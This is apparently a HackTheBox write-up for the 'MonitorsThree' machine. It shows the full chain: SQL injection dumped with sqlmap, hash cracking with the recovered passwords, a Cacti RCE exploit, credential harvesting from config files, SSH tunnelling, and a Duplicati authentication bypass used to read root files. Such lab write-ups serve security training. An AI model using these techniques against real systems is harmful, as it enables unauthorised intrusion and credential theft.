 ```yaml
---
layout: post
title: "Monitors three"
date: 2024-12-28
categories: hackthebox
---
```



starting with nmap 

```bash
sudo nmap -sC -sV -p- -T4 -oN nmap monitorsthree.htb
```

![[Pasted image 20241009162037.png]]


nothing interesting just a website

vhost fuzzing
```bash
ffuf -H "Host: FUZZ.monitorsthree.htb" -u  http://monitorsthree.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 13560
```

![[Pasted image 20241009162141.png]]

when I check this cacti website , I found that is vulnerable to an rce

![[Pasted image 20241009162253.png]]

https://github.com/thisisveryfunny/CVE-2024-25641-RCE-Automated-Exploit-Cacti-1.2.26

to exploit this we need creds 

so I start to enumerate the first website , on the `forget password` functionality , I found SQLi 


```payload
sss'
```

![[Pasted image 20241009162528.png]]

I tried to dump it manually , but it's blind so let's use sqlmap

```bash
sqlmap -r forgetpasssql --dbms mysql --dump --threads 10 -D monitorsthree_db -T users -C password --batch

# for the tables and colomuns I just guess them since  , to make it a bit faster 
```
![[Pasted image 20241009162709.png]]

![[Pasted image 20241009162725.png]]

let's crack them 
```bash
hashcat -a 0 -m 0 '31a181c8372e3afc59dab863430610e8'  /usr/share/wordlists/rockyou.txt 


31a181c8372e3afc59dab863430610e8:greencacti2001
```

I will use these creds to get foothold , I used msfconsoke for this 


and , I am in now 

![[Pasted image 20241009163450.png]]

search for cacti configuration file
```bash
www-data@monitorsthree:~/html/cacti/include$ cat config.php
```

![[Pasted image 20241009163758.png]]


![[Pasted image 20241009163853.png]]

```mysql
 mysql -u cactiuser -p 
 Enter password: cactiuser
```

on `user_auth` table , `cacti` db I found hashes for user
![[Pasted image 20241009165224.png]]

let's crack them 
```bash
hashcat -a 0 -m 3200 hash  /usr/share/wordlists/rockyou.txt

$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910
```

![[Pasted image 20241009165322.png]]

done with user .

```bash
netstat -ntlp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:38441         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8200          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8084            0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

there's some intersting port running internally.

two port that got my interest 8200,8084

there's also another application in `/opt`

```bash
 cat docker-compose.yml
```

```yml
version: "3"

services:
  duplicati:
    image: lscr.io/linuxserver/duplicati:latest
    container_name: duplicati
    environment:
      - PUID=0
      - PGID=0
      - TZ=Etc/UTC
    volumes:
      - /opt/duplicati/config:/config
      - /:/source
    ports:
      - 127.0.0.1:8200:8200
    restart: unless-stopped
```

this application is running on docker , we can access it on port `8200` 

another interesting point is , this application can access host file in `/source`

```
/:/source
```

so let's forward it to our machine

I found the ssh key on marcus home
```bash
ssh -L 8200:localhost:8200 marcus@monitorsthree.htb -i marcus_ssh
```

![[Pasted image 20241009170104.png]]


this apps suffer from authentication bypass , I  [followed this article to bypass authentication ](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee)
grab the `Duplicati-server.sqlite`
```
scp -i marcus_ssh marcus@monitorsthree.htb:/opt/duplicati/config/Duplicati-server.sqlite  .
```

on the options table

```
Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
```

![[Pasted image 20241009170548.png]]

![[Pasted image 20241009170823.png]]

now we need to get the `nonce`

just intercept request and response on burp

![[Pasted image 20241009171733.png]]


intercept response of this 

![[Pasted image 20241009171808.png]]


now on the browser

```js
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('OkRXyoFZf/zvfu4F5kxLWflz0No73EybQDRsIAANnFQ=') + '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a')).toString(CryptoJS.enc.Base64);
```

![[Pasted image 20241009172724.png]]

now send this as password


this website can backup any file/folder on the machine

so let's backup `/root`  remember  the app is running on docker to access files on the host machine we need to use `/source`


![[Pasted image 20241009173126.png]]
\
click on test connection to create folder
![[Pasted image 20241009173152.png]]

![[Pasted image 20241009173057.png]]


![[Pasted image 20241009173242.png]]


![[Pasted image 20241009173257.png]]

![[Pasted image 20241009173318.png]]


![[Pasted image 20241009173337.png]]


![[Pasted image 20241009173800.png]]


now we should find the root files on `/tmp/d0s3nt1`

![[Pasted image 20241009173831.png]]